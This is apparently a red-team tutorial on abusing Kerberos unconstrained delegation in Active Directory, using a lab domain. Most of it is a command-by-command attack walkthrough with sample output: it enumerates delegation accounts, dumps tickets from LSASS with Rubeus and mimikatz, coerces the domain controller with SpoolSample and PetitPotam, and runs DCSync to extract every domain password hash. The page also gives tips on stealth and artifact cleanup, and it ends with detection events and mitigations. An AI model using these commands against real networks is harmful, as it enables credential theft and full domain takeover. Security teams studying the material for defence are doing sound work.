

## What Is Unconstrained Delegation?

Kerberos delegation lets a service act on behalf of a user — the classic example is a web server that needs to hit a backend database using the user's identity, not its own. Unconstrained delegation is the oldest and most permissive form: when an account (machine or service) has the `TRUSTED_FOR_DELEGATION` flag set in Active Directory, Windows embeds the user's full TGT ([Ticket Granting Ticket](/docs/kerberos/tickets/) — the master credential issued at logon that proves identity to the KDC) directly inside the service ticket when that user connects.

That embedded TGT lands in [LSASS](/docs/redteam/credential-dumping/) (Local Security Authority Subsystem Service — the Windows process that manages authentication and holds active tickets in memory) on the delegating machine. An attacker with local admin on that machine can dump LSASS and steal every TGT parked there, then use them to impersonate those users to any service in the domain.

The attack escalates to full domain compromise via coercion: force the domain controller's machine account (`DC01$`) to authenticate to the unconstrained machine using a protocol bug like the PrinterBug (MS-RPRN SpoolSample) or PetitPotam (MS-EFSRPC). The DC's TGT arrives at the unconstrained machine. Steal it, pass it to `secretsdump.py`, and run DCSync — the domain is yours.

The attack has three stages:

1. **Enumerate** — find machine or service accounts with `TRUSTED_FOR_DELEGATION` set
2. **Dump** — reach the delegating machine, set a ticket monitor, trigger coercion to pull in the DC's TGT
3. **Use** — inject the captured TGT and DCSync for full credential access


## How Does Unconstrained Delegation Abuse Work?

When a user authenticates to a service marked `TRUSTED_FOR_DELEGATION`, the KDC (Key Distribution Center — the domain controller component that issues Kerberos tickets) sets the `FORWARDED` flag on the TGT and packages a copy of it inside the AP-REQ's authenticator (AP-REQ is the Kerberos message the client sends to prove they hold a valid service ticket; the authenticator is an encrypted structure embedded inside it). The delegating service unwraps it and stores it in LSASS for possible later use. This mechanism is called **TGT forwarding** — literally shipping the user's TGT into foreign memory.

An attacker who can dump LSASS on that machine captures every TGT that was forwarded there — from every user who authenticated to that service since the last reboot.

The escalation path via coercion forces the DC to become one of those authenticating users:




## What Does Unconstrained Delegation Abuse Require?

- **Local admin on the unconstrained machine** — you need to dump LSASS. This means either a shell as a local admin account, or a domain account with local admin rights on the target. LSASS can't be read by unprivileged processes.
- **An account or machine with `TRUSTED_FOR_DELEGATION` set** — the `TRUSTED_FOR_DELEGATION` bit is `0x80000` in the `userAccountControl` AD attribute. Common candidates: file servers, web servers, old RDS hosts. Machine accounts are particularly valuable because they can use protocol coercion.
- **Network path to the delegating machine** — you need to reach it to interact with LSASS.
- **Ability to trigger coercion (for the DC escalation path)** — SpoolSample (PrinterBug) requires the Print Spooler service to be running on the DC; PetitPotam requires MS-EFSRPC. Both are enabled by default on older Windows Server versions.
- **A domain account for initial enumeration** — any authenticated user account is enough.


## Enumerating Unconstrained Delegation

Find every account with `TRUSTED_FOR_DELEGATION` set. Machine accounts are the most useful targets — they can be coerced.


  
`findDelegation.py` from Impacket queries AD and lists all delegation configurations in one shot. The `\` at the end of each line is bash's line continuation character — it tells the shell that the command continues on the next line. The entire block runs as a single command.

```bash
findDelegation.py \
  radiant.local/jdoe:'Password123!' \
  -dc-ip 192.168.56.10
```

```
Impacket v0.12.0 - Copyright Fortra, LLC

AccountName  AccountType  DelegationType                      DelegationRightsTo
-----------  -----------  ----------------------------------  ------------------
WS01$        Computer     Unconstrained
svc_iis      Person       Unconstrained
```

Flag breakdown:
- `radiant.local/jdoe:'Password123!'` — authenticating user in `domain/user:password` format
- `-dc-ip 192.168.56.10` — the domain controller's IP address to query

Accounts showing `Unconstrained` with no value in `DelegationRightsTo` are the targets. A machine account like `WS01$` is ideal for the coercion path.

The bit arithmetic: `TRUSTED_FOR_DELEGATION` is `0x80000` (decimal 524288). Any `userAccountControl` value with that bit set means TGT forwarding is active. A typical unconstrained delegation workstation reads `528384` decimal — that is `0x1000` (`WORKSTATION_TRUST_ACCOUNT`) bitwise OR'd with `0x80000` (`TRUSTED_FOR_DELEGATION`). You can confirm any account has the bit set with:

```bash
python3 -c "print(0x80000 & 528384)"
```

```
524288
```

A non-zero result confirms the bit is present. `524288` is `0x80000` — `TRUSTED_FOR_DELEGATION` is active for that account.
  
  
**PowerView** (part of PowerSploit) queries AD delegation flags via LDAP. PowerShell's `` ` `` is the line continuation character — like bash's `\`, it lets you split one long command across multiple lines for readability.

```powershell
Import-Module .\PowerView.ps1
Get-DomainComputer -Unconstrained `
  -Properties dnshostname,useraccountcontrol |
  Select-Object dnshostname,useraccountcontrol
```

```
dnshostname             useraccountcontrol
-----------             ------------------
dc01.radiant.local                 532480
ws01.radiant.local                 528384
```

Flag breakdown:
- `-Unconstrained` — filters to only accounts with the `TRUSTED_FOR_DELEGATION` bit set
- `-Properties` — limits returned AD attributes to only the ones named (faster query, less noise)

Reading the numbers: `532480` decimal is `0x82000` hex — `SERVER_TRUST_ACCOUNT (0x2000)` plus `TRUSTED_FOR_DELEGATION (0x80000)`, which is the DC's value. `528384` decimal is `0x81000` hex — `WORKSTATION_TRUST_ACCOUNT (0x1000)` plus `TRUSTED_FOR_DELEGATION (0x80000)`, which is the unconstrained workstation. The DC (`dc01`) appears here by design — all domain controllers have unconstrained delegation set. That's expected and normal; the interesting target is the non-DC machine `ws01`.

To include service accounts as well:

```powershell
Get-DomainUser -AllowDelegation -AdminCount |
  Select-Object samaccountname,useraccountcontrol
```

**Rubeus triage** shows a snapshot of all tickets currently in memory, including any forwarded TGTs that have already accumulated on the local machine:

```powershell
.\Rubeus.exe triage
```

``` {linenos=table}
Action: Triage Kerberos Tickets (All Users)

[*] Current LSASS state:

 --------------------------------------------------------------------------------------------
 | LUID    | UserName              | Service                   | EndTime               |
 --------------------------------------------------------------------------------------------
 | 0x47f6c | jdoe @ RADIANT.LOCAL  | krbtgt/RADIANT.LOCAL      | 3/12/2026 7:00:00 PM  |
 | 0x47f6c | jdoe @ RADIANT.LOCAL  | cifs/ws01.radiant.local   | 3/12/2026 7:00:00 PM  |
 | 0x53a19 | svc_iis @ RADIANT.LOCAL | krbtgt/RADIANT.LOCAL    | 3/12/2026 8:30:00 PM  |
 --------------------------------------------------------------------------------------------
```

Any `krbtgt/RADIANT.LOCAL` entry is a TGT parked in LSASS — those are your targets. The `LUID` (Logon Session Unique Identifier — Windows' internal ID for each active logon session) identifies which logon session each ticket belongs to.
  



## Dumping Tickets from the Machine

You have local admin on the unconstrained machine. Extract every TGT from LSASS before triggering coercion, then watch for new arrivals.


  
There is no direct Impacket equivalent to Rubeus `dump` for pulling tickets from a live LSASS remotely. The Linux workflow depends on tickets that originate on the Windows unconstrained machine — either exported as `.kirbi` files by mimikatz (then transferred to your Kali box via SCP or a file share) or base64-encoded by Rubeus and copy-pasted into your terminal.

If you have a `.kirbi` file exported from mimikatz and transferred to your Kali box, convert it to a `.ccache` file that Linux Kerberos tools can read:

```bash
ticketConverter.py dc01_machine.kirbi dc01_machine.ccache
```

```
Impacket v0.12.0 - Copyright Fortra, LLC

[*] converting kirbi to ccache...
[+] done
```

Flag breakdown:
- First positional argument — input file (`.kirbi` is mimikatz's export format, a binary Kerberos credential cache)
- Second positional argument — output file (`.ccache` is the MIT Kerberos credential cache format used on Linux)

Then load it:

```bash
export KRB5CCNAME=/tmp/dc01_machine.ccache
```

Proceed to the "Using the Captured TGT" section from here.
  
  
**Rubeus dump** extracts all tickets from every LSASS logon session. Run this from an elevated prompt on the unconstrained machine. `/nowrap` keeps base64 output on a single line — without it, base64 strings wrap at 80 characters and break copy-paste.

```powershell
.\Rubeus.exe dump /nowrap
```

``` {linenos=table}
Action: Dump Kerberos Ticket Data (All Users)

[*] Current LSASS state:

  UserName                 : jdoe
  Domain                   : RADIANT
  LogonId                  : 0x47f6c
  UserSID                  : S-1-5-21-3623811015-3361044348-30300820-1105
  AuthenticationPackage    : Kerberos
  LogonType                : Network
  LogonTime                : 3/12/2026 9:00:00 AM

    ServiceName              : krbtgt/RADIANT.LOCAL
    ServiceRealm             : RADIANT.LOCAL
    UserName                 : jdoe
    UserRealm                : RADIANT.LOCAL
    StartTime                : 3/12/2026 9:00:00 AM
    EndTime                  : 3/12/2026 7:00:00 PM
    RenewTill                : 3/19/2026 9:00:00 AM
    Flags                    : name_canonicalize, pre_authent, renewable, forwarded, forwardable
    Base64EncodedTicket      :

      doIFpDCCBaCgAwIBBaEDAgEWooIE...  (truncated)
```

Note `Flags` includes `forwarded` — this confirms the TGT was delivered to this machine via the TGT forwarding mechanism, not locally issued. That's the delegated TGT you want.

**Rubeus monitor** — the real-time approach. Start this before triggering coercion so you catch the DC's TGT the moment it arrives. `/interval:5` polls LSASS every 5 seconds for new tickets.

```powershell
.\Rubeus.exe monitor /interval:5 /nowrap
```

``` {linenos=table}
Action: Monitor Kerberos Ticket Events

[*] Monitoring every 5 seconds for new tickets
[*] Target LSASS   : all users

[+] 3/12/2026 9:15:43 AM UTC - Found new TGT:

  UserName                 : DC01$
  Domain                   : RADIANT
  ServiceName              : krbtgt/RADIANT.LOCAL
  Flags                    : name_canonicalize, pre_authent, renewable, forwarded, forwardable
  Base64EncodedTicket      :

      doIFsDCCBaygAwIBBaEDAgEWooIE...  (truncated)
```

The `DC01$` TGT appearing after you trigger coercion is the escalation moment. Copy the base64 string — you'll inject it in the next section.

**mimikatz** exports tickets as `.kirbi` files to disk (useful if you want to exfiltrate them or use them from a different machine):

```powershell
privilege::debug
sekurlsa::tickets /export
```

``` {linenos=table}
Authentication Id : 0 ; 294764 (00000000:00047f6c)
Session           : Network from 0
User Name         : jdoe
Domain            : RADIANT
Logon Server      : DC01
Logon Time        : 3/12/2026 9:00:00 AM
SID               : S-1-5-21-3623811015-3361044348-30300820-1105

         * Username : jdoe
         * Domain   : RADIANT.LOCAL
         * Password : (null)

        Group 0 - Ticket Granting Service
         [00000000]
           Start/End/MaxRenew: 3/12/2026 9:00:00 AM ; 3/12/2026 7:00:00 PM ; 3/19/2026 9:00:00 AM
           Service Name (02) : cifs ; ws01.radiant.local ; @ RADIANT.LOCAL
           Target Name  (02) : cifs ; ws01.radiant.local ; @ RADIANT.LOCAL
           Client Name  (01) : jdoe ; @ RADIANT.LOCAL
           Flags 40a50000    : name_canonicalize ; ok_as_delegate ; pre_authent ; renewable ; forwardable ;
           Session Key       : 0x00000012 - aes256_hmac
           Ticket            : 0x00000012 - aes256_hmac ; kvno = ...
           * Saved to file [0;47f6c]-0-0-40a50000-jdoe@cifs-ws01.radiant.local.kirbi !

        Group 1 - Client Ticket ?
         [00000000]
           ...
           Service Name (01) : krbtgt ; RADIANT.LOCAL ; @ RADIANT.LOCAL
           ...
           Flags 60a10000    : name_canonicalize ; pre_authent ; renewable ; forwarded ; forwardable ;
           * Saved to file [0;47f6c]-1-0-60a10000-jdoe@krbtgt-RADIANT.LOCAL.kirbi !
```

Flag breakdown:
- `privilege::debug` — elevates mimikatz to SeDebugPrivilege (a Windows privilege that allows reading memory of processes owned by other users, including LSASS)
- `sekurlsa::tickets /export` — reads the Kerberos ticket store from LSASS memory and saves each ticket to a `.kirbi` file in the current directory

The file named `[0;47f6c]-1-0-60a10000-jdoe@krbtgt-RADIANT.LOCAL.kirbi` is the forwarded TGT. The `Flags` field confirms it with `forwarded`.
  



## Coercing Domain Controller Authentication

This is the escalation step. You trigger a protocol bug that forces the DC's machine account (`DC01$`) to authenticate outbound to your unconstrained machine. Because the DC's machine account authentication flows through a machine with `TRUSTED_FOR_DELEGATION`, its TGT gets forwarded and lands in LSASS on that machine.

**Start Rubeus monitor first** (see previous section) so you capture the TGT the moment it arrives. Then trigger one of the following techniques:

---

### SpoolSample: PrinterBug (MS-RPRN)

The PrinterBug was discovered by Lee Christensen. It abuses a feature in the MS-RPRN (Microsoft Remote Procedure Call Print System Remote Protocol) print spooler RPC interface. Specifically, `RpcRemoteFindFirstPrinterChangeNotificationEx` — a function meant to notify a client when a printer changes state — can be called with an arbitrary callback hostname. The Print Spooler service makes an immediate outbound authentication attempt to that hostname. The call requires no special privileges on the caller side; any authenticated domain user can invoke it.


  
There is no native Impacket script for SpoolSample. The standard approach from Linux is to use PetitPotam (see below), which is Python-native and achieves the same result. If you specifically need to trigger the print spooler path from Linux, compile and run `SpoolSample` via a Wine environment or use the Impacket `rpcdump.py` to first confirm the Print Spooler is exposed:

```bash
rpcdump.py dc01.radiant.local | grep -i spooler
```

```
[*] Retrieving endpoint list from dc01.radiant.local

Protocol: [MS-RPRN]: Print System Remote Protocol
Provider: spoolsv.exe
UUID    : 12345678-1234-ABCD-EF00-0123456789AB v1.0
Bindings:
          ncacn_np:\\DC01[\PIPE\spoolss]
```

If `MS-RPRN` appears and is bound to `\PIPE\spoolss`, the Print Spooler is running and PrinterBug is viable. Switch to the Windows tab or use PetitPotam from Linux.
  
  
`SpoolSample.exe` takes two arguments: the target (the machine you want to force to authenticate) and the listener (your unconstrained machine where Rubeus monitor is running).

```powershell
.\SpoolSample.exe dc01.radiant.local ws01.radiant.local
```

```
[+] Converted DLL to shellcode
[+] Executing RDI
[+] Calling exported function
TargetServer: \\dc01.radiant.local, CaptureServer: \\ws01.radiant.local
Attempted printer notification and target may need to recover
```

Flag breakdown:
- First argument (`dc01.radiant.local`) — the machine you are coercing to authenticate (the target)
- Second argument (`ws01.radiant.local`) — the unconstrained machine where Rubeus monitor is watching (the listener)

Within seconds, Rubeus monitor on `ws01` prints a new TGT with `UserName: DC01$`. That's your escalation ticket.
  


---

### PetitPotam (MS-EFSRPC)

PetitPotam was discovered by Lionel Gilles (topotam). It abuses the MS-EFSRPC (Microsoft Encrypting File System Remote Protocol) interface — specifically `EfsRpcOpenFileRaw`, a function that tells a remote machine to open an encrypted file and forward the handle. By pointing the UNC path argument at the unconstrained machine, you trigger an outbound authentication from the target.


  
```bash
python3 PetitPotam.py ws01.radiant.local dc01.radiant.local
```

```
[+] Connecting to ncacn_np:dc01.radiant.local[\PIPE\lsarpc]
[+] Connected!
[+] Binding to c681d488-d850-11d0-8c52-00c04fd90f7e
[+] Successfully bound!
[-] Sending EfsRpcOpenFileRaw!
[+] Got expected ERROR_BAD_NETPATH exception!!
[+] Attack worked!
```

Flag breakdown:
- First argument (`ws01.radiant.local`) — the listener (your unconstrained machine)
- Second argument (`dc01.radiant.local`) — the target DC to coerce

`Got expected ERROR_BAD_NETPATH exception` is the success signal — the error means the DC tried to open the UNC path and received the expected network error, but the outbound authentication happened and the TGT was forwarded before the error returned.

**Note on patching:** Microsoft patched the unauthenticated variant of PetitPotam (CVE-2021-36942) in August 2021 — the patch blocks unauthenticated EfsRpc calls. The authenticated variant remains functional in default configurations. Add credentials for authenticated coercion:

```bash
python3 PetitPotam.py \
  -u jdoe \
  -p 'Password123!' \
  -d radiant.local \
  ws01.radiant.local \
  dc01.radiant.local
```
  
  
A compiled C# port of PetitPotam is available for Windows environments where running Python is not practical. The argument order matches the Python version: listener first, target second.

```powershell
.\PetitPotam.exe ws01.radiant.local dc01.radiant.local
```

```
[+] Trying pipe lsarpc
[+] Triggering EfsRpcOpenFileRaw via lsarpc
[+] EfsRpcOpenFileRaw called, received expected error (ERROR_BAD_NETPATH)
[+] Done.
```

For authenticated coercion when the unauthenticated path is blocked:

```powershell
.\PetitPotam.exe `
  ws01.radiant.local `
  dc01.radiant.local `
  jdoe `
  'Password123!' `
  radiant.local
```

Either way, the DC's TGT lands in LSASS on `ws01` within seconds. Rubeus monitor will show a new `DC01$` entry.
  



## Using the Captured TGT

You have the DC's TGT (`DC01$`). Use it to run DCSync — the Directory Replication Service API call that pulls every account's credentials from the DC. DCSync (implemented via the DRSUAPI protocol — Directory Replication Service Remote Protocol API, the internal AD protocol DCs use to sync credentials with each other) impersonates a legitimate replication partner. With the DC's own machine account TGT, nothing looks unusual to the DC.


  
If you have the ticket as a `.kirbi` file (from mimikatz export), convert it first:

```bash
ticketConverter.py '[0;1a3b9]-1-0-60a10000-DC01$@krbtgt-RADIANT.LOCAL.kirbi' dc01_machine.ccache
```

```
Impacket v0.12.0 - Copyright Fortra, LLC

[*] converting kirbi to ccache...
[+] done
```

If you have the base64 ticket from Rubeus monitor (not a `.kirbi` file), decode it to a `.kirbi` first, then convert:

```bash
base64 -d <<< "doIFsDCCBaygAwIBBaEDAgEWooIE..." > dc01_machine.kirbi
ticketConverter.py dc01_machine.kirbi dc01_machine.ccache
```

```
Impacket v0.12.0 - Copyright Fortra, LLC

[*] converting kirbi to ccache...
[+] done
```

The Rubeus base64 output is a `.kirbi`-format credential cache (Windows binary Kerberos format). Linux tools require `.ccache` (MIT Kerberos format) — the conversion step is always required. Skipping it and pointing `KRB5CCNAME` at the raw binary will cause authentication failures.

Load the converted ticket:

```bash
export KRB5CCNAME=/tmp/dc01_machine.ccache
```

Verify the ticket loaded correctly:

```bash
klist
```

```
Ticket cache: FILE:/tmp/dc01_machine.ccache
Default principal: DC01$@RADIANT.LOCAL

Valid starting       Expires              Service principal
03/12/2026 09:15:00  03/12/2026 19:15:00  krbtgt/RADIANT.LOCAL@RADIANT.LOCAL
        renew until 03/19/2026 09:15:00
```

Run DCSync using `-k -no-pass` to authenticate with the Kerberos ticket instead of a password. `-just-dc` tells secretsdump to dump only the domain credentials (all accounts), skipping local SAM hashes. Omit `-just-dc-user` to pull every account:

```bash
secretsdump.py \
  -k -no-pass \
  -just-dc \
  dc01.radiant.local
```

``` {linenos=table}
Impacket v0.12.0 - Copyright Fortra, LLC

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
 (NTDS.DIT is the Active Directory database file stored on every DC — it holds all domain account data including password hashes)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:e19ccf75ee54e06b06a5907af13cef42:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:819af826bb148e603acb0f33d17632f8:::
jdoe:1105:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe:::
svc_sql:1106:aad3b435b51404eeaad3b435b51404ee:7c07c93f3cfc1aca1cf4a2a5e1c6c3f9:::
DC01$:1000:aad3b435b51404eeaad3b435b51404ee:7da8e2dac66b26db1aa86fa06b1966e7:::
WS01$:1001:aad3b435b51404eeaad3b435b51404ee:4ef302c0a3de49e4a8f03a7c76d2e7bc:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:4b9e0e5a8eefd4e0c0a1b1d74f9b7cc1...
krbtgt:aes256-cts-hmac-sha1-96:61a35e4c08e5b5cdbe6990dce99ef66a...
```

Flag breakdown:
- `-k` — use Kerberos authentication (reads from the file pointed to by `KRB5CCNAME`)
- `-no-pass` — do not prompt for a password; credentials come from the Kerberos cache
- `-just-dc` — use the DRSUAPI (DCSync) method and dump domain credentials only
- `dc01.radiant.local` — target must be specified by hostname (not IP) for Kerberos name resolution to work

The `krbtgt` hash here unlocks [Golden Ticket](/docs/kerberos/ticket-attacks/golden-ticket/) forging. The `Administrator` NTLM hash allows pass-the-hash to any service in the domain. Domain compromise is complete.
  
  
With the base64 TGT from Rubeus monitor, inject it directly into your current logon session:

```powershell
.\Rubeus.exe ptt /ticket:doIFsDCCBaygAwIBBaEDAgEWooIE...
```

```
[*] Action: Import Ticket
[+] Ticket successfully imported!
```

Verify the ticket is loaded:

```powershell
klist
```

``` {linenos=table}
Current LogonId is 0:0x7a3b2

Cached Tickets: (1)

#0>     Client: DC01$ @ RADIANT.LOCAL
        Server: krbtgt/RADIANT.LOCAL @ RADIANT.LOCAL
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x60a10000 -> forwardable forwarded renewable pre_authent
        Start Time: 3/12/2026 9:15:00 (local)
        End Time:   3/12/2026 19:15:00 (local)
        Renew Time: 3/19/2026 9:15:00 (local)
```

`Ticket Flags` shows `forwarded` — this is the delegated TGT from the DC's machine account. `End Time` is ~10 hours from capture, which is normal for a machine account TGT.

Run DCSync via mimikatz using the injected ticket. The `/user:krbtgt` flag pulls only the krbtgt account; omit it to dump everything:

```powershell
lsadump::dcsync /domain:radiant.local /user:krbtgt
```

``` {linenos=table}
[DC] 'radiant.local' will be the domain
[DC] 'dc01.radiant.local' will be the DC server
[DC] 'krbtgt' will be the user account

Object RDN           : krbtgt

** SAM ACCOUNT **

SAM Username         : krbtgt
User Account Control : 00000202 ( ACCOUNTDISABLE NORMAL_ACCOUNT )
 (ACCOUNTDISABLE is intentional — krbtgt is disabled to prevent anyone logging in as it directly. The KDC still uses its keys internally to sign all tickets; the disabled flag only blocks interactive logon.)

Credentials:
  Hash NTLM: 819af826bb148e603acb0f33d17632f8
     ntlm- 0: 819af826bb148e603acb0f33d17632f8

Supplemental Credentials:
  AES256 HMAC: 61a35e4c08e5b5cdbe6990dce99ef66a...
```

To dump all domain credentials in one pass:

```powershell
lsadump::dcsync /domain:radiant.local /all /csv
```

`/all` replicates every account; `/csv` formats the output as comma-separated values for easier parsing.

Alternatively, access the DC directly using the injected ticket:

```powershell
# C$ is a hidden Windows administrative share that exposes the entire C: drive —
# automatically created on every Windows machine, accessible only to administrators
dir \\dc01.radiant.local\C$
```

```
 Volume in drive \\dc01.radiant.local\C$ has no label.
 Directory of \\dc01.radiant.local\C$

03/12/2026  09:00    <DIR>          inetpub
03/12/2026  09:00    <DIR>          PerfLogs
03/12/2026  09:00    <DIR>          Program Files
03/12/2026  09:00    <DIR>          Windows
```
  



## Operational Notes

**The coercion window is short.** A machine account TGT has a 10-hour lifetime. Start Rubeus monitor before triggering coercion, capture the ticket immediately, and use it before the window closes. If the DC reboots or the ticket expires, you need to re-trigger coercion.

**PrinterBug requires Print Spooler running on the target DC.** Microsoft recommends disabling Print Spooler on DCs — in environments that followed that guidance, SpoolSample will fail silently. Fall back to PetitPotam. Check with `sc \\dc01.radiant.local query spooler` before attempting.

**PetitPotam authenticated vs unauthenticated.** The unauthenticated path (no credentials supplied) was patched by Microsoft in August 2021 (CVE-2021-36942). The authenticated path — where the attacker supplies valid domain credentials — was not patched and remains available in default configurations on all Windows Server versions. Use `-u jdoe -p 'Password123!'` flags on PetitPotam for authenticated coercion.

**Machine accounts vs user accounts with TRUSTED_FOR_DELEGATION.** Machine account TGTs are more operationally valuable for the escalation path because coercion targets machine accounts. A user account with `TRUSTED_FOR_DELEGATION` still accumulates TGTs from users who authenticate to it, but you can't coerce the DC to authenticate as a specific user — you can only coerce machine accounts.

**Multiple TGTs accumulate.** On a busy server with unconstrained delegation, LSASS may hold dozens of forwarded TGTs from various users. Dump early and often. `Rubeus dump /nowrap` shows everything currently stored; `monitor` catches new arrivals.

**LSASS dump artifacts.** Rubeus operates in-memory and does not write a full LSASS dump to disk. mimikatz `sekurlsa::tickets /export` writes `.kirbi` files to the current directory — clean those up after exfiltrating. A full `procdump.exe -ma lsass.exe` dump (which you'd use to analyze credentials offline) writes a multi-gigabyte file that is much more likely to trigger [EDR](/docs/redteam/defender-bypass/) alerting.

**The `TRUSTED_FOR_DELEGATION` flag on DCs is by design.** All domain controllers have this flag set — that's how inter-DC authentication and replication work. Don't alert on DCs appearing in your enumeration output. Alert on non-DC computers and service accounts.

**AES vs RC4 on the captured TGT.** The captured TGT uses whatever encryption the DC negotiated at authentication time. Modern DCs negotiate AES-256 by default — the ticket you capture will be AES-256 encrypted. This is actually good for operational stealth: AES tickets don't trigger RC4 downgrade detections.


## How Do You Detect and Defend Against Unconstrained Delegation Abuse?

### What Logs Does Unconstrained Delegation Abuse Generate?

- **Event ID 4624 (Type 3 — Network Logon)** on the unconstrained machine — every user who authenticates to the delegating service generates a network logon event. Volume here can be high on busy servers, but the source IPs are useful for baselining.
- **Event ID 4769** at the DC — the `FORWARDED` TGT flag is set in TGS requests made by the delegating machine acting on behalf of users. The `TicketOptions` field in 4769 events contains the forwarding flags.
- **Event ID 4648** on the DC — when coercion succeeds, the DC machine account makes an explicit outbound Kerberos or NTLM authentication to a machine it doesn't normally talk to. Explicit credential use events (4648) from DC machine accounts to workstations are anomalous.
- **Event ID 4662** at the DC — if the attacker runs DCSync after capturing the DC's TGT, every attribute replicated fires a 4662 with the `DS-Replication-Get-Changes-All` access right. This is the most reliable DCSync indicator.
- **Event ID 5156 (Windows Filtering Platform)** on the DC — outbound connection from the DC to the unconstrained machine. PrinterBug and PetitPotam both initiate from the DC, so the connection source is the DC itself. A DC making outbound connections to workstations on SMB/MSRPC ports is suspicious.
- **[Sysmon](/docs/blueteam/lolbins-hunting/) Event ID 10** (Process Access) on the unconstrained machine — if the attacker dumps LSASS directly (rather than using Rubeus in-memory), LSASS process access is logged by Sysmon with the accessing process name.
- **Sysmon Event ID 3** (Network Connection) on the DC — outbound connections triggered by SpoolSample or PetitPotam, showing the DC connecting to the unconstrained machine.

### What Logs Does Unconstrained Delegation Abuse Not Generate?

- **Rubeus monitor and Rubeus dump generate no LSASS dump file.** Rubeus reads tickets from LSASS using legitimate Windows APIs (`LsaCallAuthenticationPackage`) rather than raw memory reads. There is no `lsass.dmp` written to disk. No Sysmon Event ID 10 is generated unless the EDR specifically monitors the API calls Rubeus uses.
- **The TGT forwarding itself is silent.** TGT embedding into the AP-REQ is a normal Kerberos operation — there is no Event ID that specifically logs "a TGT was forwarded to this machine." The attacker receives the TGT as part of standard protocol operation.
- **The coercion call looks like a legitimate print notification or EFS request.** SpoolSample uses a documented RPC interface. PetitPotam uses a documented EFS RPC interface. Neither call is inherently malicious at the protocol level — distinguishing a coercion attempt from a legitimate call requires behavioral context (who is calling, from where, to whom).
- **No alert fires when the forwarded TGT is injected** using `Rubeus.exe ptt`. Ticket injection is a standard operation in the Windows Kerberos stack (`LsaCallAuthenticationPackage` with `KerbSubmitTicketMessage`). No audit event is generated for this API call.

### How Do You Mitigate Unconstrained Delegation Abuse?

- **Disable the Print Spooler service on all domain controllers.** This closes the PrinterBug coercion path entirely. The Print Spooler has no legitimate role on a DC. Microsoft's guidance (and AD Tiering best practices) explicitly recommend disabling it.
- **Block inbound MS-EFSRPC on domain controllers.** A Windows Firewall rule blocking TCP 445 and TCP 135 inbound on DCs from non-DC hosts eliminates PetitPotam coercion. DCs should only accept SMB and RPC connections from other DCs and admin hosts.
- **Remove `TRUSTED_FOR_DELEGATION` from non-DC machine accounts.** Audit all machine accounts for the `TRUSTED_FOR_DELEGATION` bit. Most services that historically required unconstrained delegation can be reconfigured to use [constrained delegation](/docs/kerberos/delegation/constrained-delegation/) (S4U2Proxy) or [Resource-Based Constrained Delegation](/docs/kerberos/delegation/rbcd/) (RBCD), which both limit what services the account can delegate to.
- **Enable Protected Users security group** for high-value accounts (Domain Admins, service account owners, executives). Members of Protected Users cannot have their TGTs forwarded — the `FORWARDABLE` flag is explicitly denied for these accounts by the KDC, regardless of the delegating service's configuration. This breaks TGT forwarding for those users even if they authenticate to an unconstrained machine.
- **Set the "Account is sensitive and cannot be delegated" flag** on privileged accounts that should never be forwarded. This is a per-account complement to Protected Users — it sets the `NOT_DELEGATED` flag in the account's `userAccountControl`, which tells the KDC to refuse to issue forwardable TGTs for that account.
- **Monitor DCSync (Event ID 4662).** Any non-DC account or machine performing `DS-Replication-Get-Changes-All` is a critical alert. In a healthy domain, only DC machine accounts replicate. A workstation (`WS01$`) replicating credentials is an immediate incident indicator.
- **Privileged Access Workstations (PAW — dedicated hardened machines used only for administrative tasks, never connected to the internet or used for email).** Coercion attacks originate from machines that an attacker has compromised. If domain admin credentials are only used from PAW machines, and those machines are isolated on a dedicated network segment, the pivot from workstation compromise to unconstrained delegation exploitation is significantly harder.
- **Tier 0 / AD Tiering.** Place all DCs, unconstrained delegation machines, and accounts with `TRUSTED_FOR_DELEGATION` in Tier 0. Tier 0 accounts should never authenticate to Tier 1 or Tier 2 machines. This contains the blast radius — if a Tier 2 workstation has unconstrained delegation (a misconfiguration), Tier 0 users authenticating only to Tier 0 machines means their TGTs never land on that workstation.

